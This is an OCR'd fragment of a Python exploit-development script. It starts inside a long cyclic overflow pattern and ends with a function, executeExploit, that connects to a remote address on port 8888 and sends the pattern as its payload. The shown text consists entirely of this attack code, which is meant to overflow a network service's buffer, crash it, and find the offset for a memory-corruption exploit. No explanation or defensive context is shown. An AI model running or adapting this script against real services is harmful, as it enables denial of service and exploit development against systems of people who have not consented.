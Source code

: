 ```python
    7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9
    Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1B
    k2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp
    4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6
    Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8B
    z9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf
    1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3
    Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5C
    p6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9Cs0Cs1Cs2Cs3Cs4Cs5Cs6Cs7Cs8Cs9Ct0Ct1Ct2Ct3Ct4Ct5Ct6Ct7Ct8Ct9Cu0Cu1Cu2Cu3Cu4Cu5Cu6Cu7Cu
    8Cu9Cv0Cv1Cv2Cv3Cv4Cv5Cv6Cv7Cv8Cv9Cw0Cw1Cw2Cw3Cw4Cw5Cw6Cw7Cw8Cw9Cx0Cx1Cx2Cx3Cx4Cx5Cx6Cx7Cx8Cx9Cy0Cy1Cy2Cy3Cy4Cy5Cy6Cy7Cy8Cy9Cz0Cz1Cz2Cz3Cz4Cz5Cz6Cz7Cz8Cz9Da0
    Da1Da2Da3Da4Da5Da6Da7Da8Da9Db0Db1Db2Db3Db4Db5Db6Db7Db8Db9Dc0Dc1Dc2Dc3Dc4Dc5Dc6Dc7Dc8Dc9Dd0Dd1Dd2Dd3Dd4Dd5Dd6Dd7Dd8Dd9De0De1De2De3De4De5De6De7De8De9Df0Df1Df2D
    f3Df4Df5Df6Df7Df8Df9Dg0Dg1Dg2Dg3Dg4Dg5Dg6Dg7Dg8Dg9Dh0Dh1Dh2Dh3Dh4Dh5Dh6Dh7Dh8Dh9Di0Di1Di2Di3Di4Di5Di6Di7Di8Di9Dj0Dj1Dj2Dj3Dj4Dj5Dj6Dj7Dj8Dj9Dk0Dk1Dk2Dk3Dk4Dk
    5Dk6Dk7Dk8Dk9Dl0Dl1Dl2Dl3Dl4Dl5Dl6Dl7Dl8Dl9Dm0Dm1Dm2Dm3Dm4Dm5Dm6Dm7Dm8Dm9Dn0Dn1Dn2Dn3Dn4Dn5Dn6Dn7Dn8Dn9Do0Do1Do2Do3Do4Do5Do6Do7Do8Do9Dp0Dp1Dp2Dp3Dp4Dp5Dp6Dp7
    Dp8Dp9Dq0Dq1Dq2Dq3Dq4Dq5Dq6Dq7Dq8Dq9Dr0Dr1Dr2Dr3Dr4Dr5Dr6Dr7Dr8Dr9Ds0Ds1Ds2Ds3Ds4Ds5Ds6Ds7Ds8Ds9Dt0Dt1Dt2Dt3Dt4Dt5Dt6Dt7Dt8Dt9Du0Du1Du2Du3Du4Du5Du6Du7Du8Du9D
    v0Dv1Dv2Dv3Dv4Dv5Dv6Dv7Dv8Dv9Dw0Dw1Dw2Dw3Dw4Dw5Dw6Dw7Dw8Dw9Dx0Dx1Dx2Dx3Dx4Dx5Dx6Dx7Dx8Dx9Dy0Dy1Dy2Dy3Dy4Dy5Dy6Dy7Dy8Dy9Dz0Dz1Dz2Dz3Dz4Dz5Dz6Dz7Dz8Dz9Ea0Ea1Ea
    2Ea3Ea4Ea5Ea6Ea7Ea8Ea9Eb0Eb1Eb2Eb3Eb4Eb5Eb6Eb7Eb8Eb9Ec0Ec1Ec2Ec3Ec4Ec5Ec6Ec7Ec8Ec9Ed0Ed1Ed2Ed3Ed4Ed5Ed6Ed7Ed8Ed9Ee0Ee1Ee2Ee3Ee4Ee5Ee6Ee7Ee8Ee9Ef0Ef1Ef2Ef3Ef4
    Ef5Ef6Ef7Ef8Ef9Eg0Eg1Eg2Eg3Eg4Eg5Eg6Eg7Eg8Eg9Eh0Eh1Eh2Eh3Eh4Eh5Eh6Eh7Eh8Eh9Ei0Ei1Ei2Ei3Ei4Ei5Ei6Ei7Ei8Ei9Ej0Ej1Ej2Ej3Ej4Ej5Ej6Ej7Ej8Ej9Ek0Ek1Ek2Ek3Ek4Ek5Ek6E
    k7Ek8Ek9El0El1El2El3El4El5El6El7El8El9Em0Em1Em2Em3Em4Em5Em6Em7Em8Em9En0En1En2En3En4En5En6En7En8En9Eo0Eo1Eo2Eo3Eo4Eo5Eo6Eo7Eo8Eo9Ep0Ep1Ep2Ep3Ep4Ep5Ep6Ep7Ep8Ep
    9Eq0Eq1Eq2Eq3Eq4Eq5Eq6Eq7Eq8Eq9Er0Er1Er2Er3Er4Er5Er6Er7Er8Er9Es0Es1Es2Es3Es4Es5Es6Es7Es8Es9Et0Et1Et2Et3Et4Et5Et6Et7Et8Et9Eu0Eu1Eu2Eu3Eu4Eu5Eu6Eu7Eu8Eu9Ev0Ev1
    Ev2Ev3Ev4Ev5Ev6Ev7Ev8Ev9Ew0Ew1Ew2Ew3Ew4Ew5Ew6Ew7Ew8Ew9Ex0Ex1Ex2Ex3Ex4Ex5Ex6Ex7Ex8Ex9Ey0Ey1Ey2Ey3Ey4Ey5Ey6Ey7Ey8Ey9Ez0Ez1Ez2Ez3Ez4Ez5Ez6Ez7Ez8Ez9Fa0Fa1Fa2Fa3F
    a4Fa5Fa6Fa7Fa8Fa9Fb0Fb1Fb2Fb3Fb4Fb5Fb6Fb7Fb8Fb9Fc0Fc1Fc2Fc3Fc4Fc5Fc6Fc7Fc8Fc9Fd0Fd1Fd2Fd3Fd4Fd5Fd6Fd7Fd8Fd9Fe0Fe1Fe2Fe3Fe4Fe5Fe6Fe7Fe8Fe9Ff0Ff1Ff2Ff3Ff4Ff5Ff
    6Ff7Ff8Ff9Fg0Fg1Fg2Fg3Fg4Fg5Fg6Fg7Fg8Fg9Fh0Fh1Fh2Fh3Fh4Fh5Fh6Fh7Fh8Fh9Fi0Fi1Fi2Fi3Fi4Fi5Fi6Fi7Fi8Fi9Fj0Fj1Fj2Fj3Fj4Fj5Fj6Fj7Fj8Fj9Fk0Fk1Fk2Fk3Fk4Fk5Fk6Fk7Fk8
    Fk9Fl0Fl1Fl2Fl3Fl4Fl5Fl6Fl7Fl8Fl9Fm0Fm1Fm2Fm3Fm4Fm5Fm6Fm7Fm8Fm9Fn0Fn1Fn2Fn3Fn4Fn5Fn6Fn7Fn8Fn9Fo0Fo1Fo2Fo3Fo4Fo5Fo6Fo7Fo8Fo9Fp0Fp1Fp2Fp3Fp4Fp5Fp6Fp7Fp8Fp9Fq0F
    q1Fq2Fq3Fq4Fq5Fq6Fq7Fq8Fq9Fr0Fr1Fr2Fr3Fr4Fr5Fr6Fr7Fr8Fr9Fs0Fs1Fs2Fs3Fs4Fs5Fs6Fs7Fs8Fs9Ft0Ft1Ft2Ft3Ft4Ft5Ft6Ft7Ft8Ft9Fu0Fu1Fu2Fu3Fu4Fu5Fu6Fu7Fu8Fu9Fv0Fv1Fv2Fv
    3Fv4Fv5Fv6Fv7Fv8Fv9Fw0Fw1Fw2Fw3Fw4Fw5Fw6Fw7Fw8Fw9Fx0Fx1Fx2Fx3Fx4Fx5Fx6Fx7Fx8Fx9Fy0Fy1Fy2Fy3Fy4Fy5Fy6Fy7Fy8Fy9Fz0Fz1Fz2Fz3Fz4Fz5Fz6Fz7Fz8Fz9Ga0Ga1Ga2Ga3Ga4Ga5
    Ga6Ga7Ga8Ga9Gb0Gb1Gb2Gb3Gb4Gb5Gb6Gb7Gb8Gb9Gc0Gc1Gc2Gc3Gc4Gc5Gc6Gc7Gc8Gc9Gd0Gd1Gd2Gd3Gd4Gd5Gd6Gd7Gd8Gd9Ge0Ge1Ge2Ge3Ge4Ge5Ge6Ge7Ge8Ge9Gf0Gf1Gf2Gf3Gf4Gf5Gf6Gf7G
    f8Gf9Gg0Gg1Gg2Gg3Gg4Gg5Gg6Gg7Gg8Gg9Gh0Gh1Gh2Gh3Gh4Gh5Gh6Gh7Gh8Gh9Gi0Gi1Gi2Gi3Gi4Gi5Gi6Gi7Gi8Gi9Gj0Gj1Gj2Gj3Gj4Gj5Gj6Gj7Gj8Gj9Gk0Gk1Gk2Gk3Gk4Gk5Gk"

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((remoteAddress, 8888))
    s.send(payload)

if __name__ == "__main__":
    executeExploit()
```
